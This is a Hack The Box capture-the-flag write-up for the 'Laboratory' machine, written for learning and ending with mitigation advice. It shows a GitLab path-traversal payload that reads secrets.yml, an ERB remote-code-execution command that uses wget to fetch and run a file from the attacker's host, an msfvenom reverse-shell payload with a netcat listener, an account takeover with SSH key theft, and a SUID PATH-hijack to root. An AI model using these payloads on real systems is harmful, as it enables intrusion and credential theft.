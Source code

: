 # Laboratory



## Contents

- [**Box**](#Box)
- [**Profile**](#Profile)
- [**Enumeration**](#Enumeration)
- [**Exploitation**](#Exploitation)
- [**Post-exploitation**](#Post-exploitation)
  - [**User**](#User)
  - [**Root**](#Root)

- [**Mitigation**](#Mitigation)



## Box

[![](img/box_info.png)]()



## Profile

[![Akinflo](http://www.hackthebox.eu/badge/image/419539)](https://www.hackthebox.eu/home/users/profile/419539)





## Enumeration

First, i start nmap scanning:

```bash
nmap -sC -sV -oN nmap_res 10.10.10.216
```



###### Active services:

- **SSH**

- **HTTP**
- **HTTPS**



![nmap_scan](img/nmap_scan.png)





First i try **HTTPS** protocol and i get this:

![](img/url_error_message.png)



So, i have to edit my `/etc/hosts` file to add the corresponding **DNS Server names** to the target ip:

`10.10.10.216	laboratory.htb git.laboratory.htb`

Now, i can access to the web page. After a few minutes on the main page, i get nothing so i decide to go in the `git.laboratory.htb`. I try to create an account to access to the git main page. I have to use the domain name of the website for the mail:![](img/git_register.png)



I explored the git page and i found a project with the user Dexter:![](img/git_dexter.png)



Here, i think i need to be able to connect to his account to manage the website. So, first, i try to find the deployed git version and i found it in the help page:

![](img/git_version.png)

Now, i just need to search an exploit which is available on this version. Finally, i found an interesting post which say that we can make a **RCE** with this version of gitlab:

![](img/git_rce_post.png)



## Exploitation

To use this exploit, i have to get the secret_key_base of the server gitlab and add it to my gitlab-rails config:

![](img/exploit_step.png)

I tried this description for the issue: `![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml)`

When i moved the issue in my second project, i get the secrets.yml file:

![](img/secret_key_base.png)

I downloaded it and cat the file to copy the secret_key_base on my own secrets.yml :

![](img/secret_key_base_2.png)



I installed gitlab with the correct version and try this steps to trigger a **RCE**.

First, i launched gitlab rails console with the following command: `sudo gitlab-rails console `. 

In the same time, i create a SimpleHTTPServer with python: `python -m SimpleHTTPServer 8888`.

Before writing this commands, i create a file `test`and i edit the `erb` variable with ```erb = ERB.new("<%= `cd /tmp/ &&  wget http://10.10.14.121:8888/test` %>")```

I send this commands to the gitlab console and generated the corresponding cookie. Finally, i send request using curl with the cookie and i received the wget answer:

![](img/rce_test_file.png)



So, the **RCE** worked, at this point, i tried to get a reverse shell.

I generate an elf file using msfvenom to execute it remotely: `msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.121 LPORT=4444 -f elf >reverse_shell.elf`

In the same time, i use netcat to listen the specified port: `nc -lvp 4444`

I re-edit the `erb` variable with this command: ```erb = ERB.new("<%=`cd /tmp/ &&  wget http://10.10.14.121:8888/reverse_shell.elf && chmod +x reverse_shell.elf && ./reverse_shell.elf` %>"```

After that, i got the reverse shell: 

![](img/rce_reverse_shell_edit.png)



## Post-exploitation

### User

I know we are in the gitlab server which handles the website. I also know the username name of the user we got in the gitlab website: Dexter.

So, i after a few research, i learned that i can easily edit the user password using `gitlab-rails console`:

<img src="img/edit_dexter_password.png" style="zoom:100%;" />



I tried to connect to Dexter account with the password i edited and it worked. In his account, i retrieve the private key for the ssh connection:

![](img/private_key.png)



I dowloaded this file and used it for the ssh connection, and it worked again:

![](img/user_pwned.png)



### Root

First, i launched a linPEAS to enumerate possible privesc. After a few looks, i found an unusual **SUID** binary file:

![](img/docker-security.png)

I tried to read readable ASCII character using `strings` command in my kali and found interesting lines, especially, the lines with chmod:

![](img/docker-security_chmod.png)



So, here we can conclude that chmod command is launched without the absolute path from the `docker-security` script with the root privilege because of the **SUID** permission.

I decided to create a custom script named `chmod` and add the temperally directory to the `PATH` to execute my script instead of `/bin/chmod`. I just used `/bin/bash -i` to launch an interactive bash shell:

![](img/chmod_script.png)



Finally, i make my file executable, execute `docker-security` and i got bash with root privilege:

![](img/root_pwned.png)



## Mitigation

To avoid vulnerabilities in this box, it is recommended to:

- Upgrade gitlab to the last version
- Do not be tempted to roll your own **SUID** utilities unless you really have to
- Use absolute path of command used in script
- Use `getconf PATH` in the start of the script to avoid unknown script execution 
